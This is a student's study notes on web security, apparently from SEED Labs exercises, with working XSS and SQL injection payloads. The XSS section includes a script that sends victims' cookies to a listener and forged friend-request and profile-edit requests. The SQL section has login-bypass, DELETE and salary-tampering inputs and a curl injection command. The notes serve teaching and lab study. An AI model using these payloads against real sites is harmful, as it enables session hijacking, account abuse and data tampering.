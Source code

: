 # Independent study on web security issues( Based on Seedlab, Syracuse University) 

## Cross site Scripting 

### Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

### Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=ts+token+"&name=Charlie&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=41"; 
Ajax.send(content);
</script>
```

## SQL injection 
### Tasks:

#### A simple PHP application. 
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/sql_injection.php

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/SQL_Injection.pdf

#### Task 1: Playing with the MySQL console 
```sql
mysql -u root -pseedubuntu
use Users; # name of the database 
show tables; # show all the tables in Users database 
```

#### Task 2.1 : SQL injection attack from webpage 
To simply login, attacker can type this in the Employee ID textbox 
```
a ' or 1 #

```

To login as admin, attacker can type this. We assume, attacker knows the name of admin. 
```
a ' or Name='Admin' #
```

#### Task 2.2. : From the command line 
```
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'
``` 

#### Task 2.3. : Append a new SQL statement 
Had some issues with this. Draft script. P.S : Attacker will also not know the table name. 
```
a ';delete from credential where Name='Abc'#
```

#### Task 3.1 : Updating the salary 
Employee can't edit their salary information. But they can do this with the help of SQL injection attack. Type this in any of the field 
```
aaaaaa',salary=100000#
```

#### Task 3.2 : Updating the salary of one specific person
Set the value of first field as 
```
aaaaaa',salary=1 where Name='Ryan'#
```

& set the values of every other fields as # so that every statements executed are commented out. 

## Buffer Overflow 
### Tasks:

#### Sample demo application
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/bufferoverflow.c

#### Useful Links:
* https://courses.cs.washington.edu/courses/cse451/05sp/section/overflow1.ppt
* Smashing the stack for fun and profit, http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf
* Lecture Notes: http://www.cis.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Buffer_Overflow.pdf
* https://dhavalkapil.com/blogs/Shellcode-Injection/
* GDB tutorial: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Buffer_Overflow/Buffer_Overflow.pdf
